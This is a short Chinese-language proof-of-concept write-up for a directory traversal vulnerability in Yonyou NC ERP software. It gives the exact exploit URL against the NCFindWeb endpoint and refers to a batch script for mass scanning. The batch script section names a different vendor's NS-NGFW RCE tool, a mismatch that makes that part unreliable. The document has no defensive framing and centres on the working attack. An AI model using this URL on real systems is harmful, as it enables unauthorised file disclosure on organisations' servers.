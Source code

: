 # 0x00 软件介绍
用友NC：用友NC是面向集团的ERP类软件  
官网：https://www.yonyou.com/

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename
```
返回如下图，表示存在目录遍历漏洞  
![image](./pic/0.png)

# 0x05 批量脚本
网康NS-NGFW-RCE-Batch-Detect.py，具体用法见：python3 网康NS-NGFW-RCE-Batch-Detect.py -h  
效果如下  
![image](./pic/2.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
